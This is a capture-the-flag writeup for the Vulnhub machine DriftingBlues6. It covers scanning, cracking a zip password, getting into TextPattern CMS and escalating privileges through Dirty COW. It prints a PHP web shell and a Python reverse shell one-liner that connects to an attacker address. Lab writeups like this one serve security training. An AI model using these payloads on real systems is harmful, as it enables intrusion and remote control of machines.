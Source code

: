 ```yaml
---
layout: default
title : muzec - Driftingblues6 Writeup
---
```


### Scanning With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -p- -oA nmap <Target-IP>```

```

┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/drift]
└─$ cat nmap.nmap
# Nmap 7.91 scan initiated Mon Jul 12 10:13:15 2021 as: nmap -sC -sV -p- -oA nmap 172.16.139.215
Nmap scan report for 172.16.139.215
Host is up (0.00042s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: driftingblues

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 12 10:13:25 2021 -- 1 IP address (1 host up) scanned in 9.27 seconds
```

We have only one port open so let start digging without wasting a time on it.

![image](https://user-images.githubusercontent.com/69868171/135548967-78162fc0-7dd3-4bd5-a94e-cd241f4901af.png)

Should be easy let check the `robots.txt` first.

![image](https://user-images.githubusercontent.com/69868171/135549175-59c04b25-1b0c-441c-acf3-971231ac5cdd.png)

We have a path also a hint to add extension to our directory brute forcing.


![image](https://user-images.githubusercontent.com/69868171/135549405-236614d1-1cf5-405d-9d63-4ba7511f98e4.png)

Now let brute force some directory.

![image](https://user-images.githubusercontent.com/69868171/135549524-28f34a58-101b-4575-9c10-70a77a49b987.png)

We have a zip file and seems it protected with password let try to crack it using `zip2john` .

![image](https://user-images.githubusercontent.com/69868171/135549658-ba44b3b8-9e50-4259-8419-d2d3f3b23629.png)

Now let unzip the file with the password.

![image](https://user-images.githubusercontent.com/69868171/135549775-76ef058a-6e5f-4d4c-910a-34e01fbfad0e.png)

Now let access the path with the credentials we just obtained.

![image](https://user-images.githubusercontent.com/69868171/135549868-298353c6-b660-42a8-9438-c42db6caff2f.png)

We are in and we have a version of the TextPattern CMS confirming RCE Exploit.

![image](https://user-images.githubusercontent.com/69868171/135550060-08ce6b78-ae36-4325-b136-bad17100f543.png)

But let try doing it manually.

![image](https://user-images.githubusercontent.com/69868171/135550139-1febbab1-aacc-4ffd-82e1-4920aa17e6a7.png)

Click On Files.

![image](https://user-images.githubusercontent.com/69868171/135550208-9938269a-8bdb-4366-930b-028f5a5bef8c.png)

Now our PHP code save in a file with the extension PHP.

```
<?php system($_GET['cmd']) ?>
```

Now let upload it.

![image](https://user-images.githubusercontent.com/69868171/135550407-6e4cbc0b-f55b-47a3-a9fa-80ad8e622082.png)

Time to access it and get Remote Code Execution.

![image](https://user-images.githubusercontent.com/69868171/135550551-22dc39cb-97d8-4bfe-a694-51b756eff797.png)

![image](https://user-images.githubusercontent.com/69868171/135550626-1159c33e-d561-4c26-bcc1-b11863186a74.png)

Now getting a reverse shell back to our terminal.

![image](https://user-images.githubusercontent.com/69868171/135550725-47fe7256-59f0-4194-a9b5-a4328fe723ae.png)

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We Have shell let spawn a TTY shell.

![image](https://user-images.githubusercontent.com/69868171/135550828-5e49d70c-9eca-4e3d-b305-4725fde77383.png)

### Privilege Escalation

Kernal version and we notice it running an old version.

![image](https://user-images.githubusercontent.com/69868171/135551013-fca59bc9-fe1a-485f-a78a-d84c638b16bf.png)

Checking Exploit-DB and i found an exploit 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method).

![image](https://user-images.githubusercontent.com/69868171/135551155-51c5e528-e954-4c90-aad3-952ee51a6783.png)

Now let exploit it.

![image](https://user-images.githubusercontent.com/69868171/135551576-64d1d8b3-76d3-4e2c-acf1-3203dbc9ac09.png)

Transfer exploit to target and compile and running the exploit we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
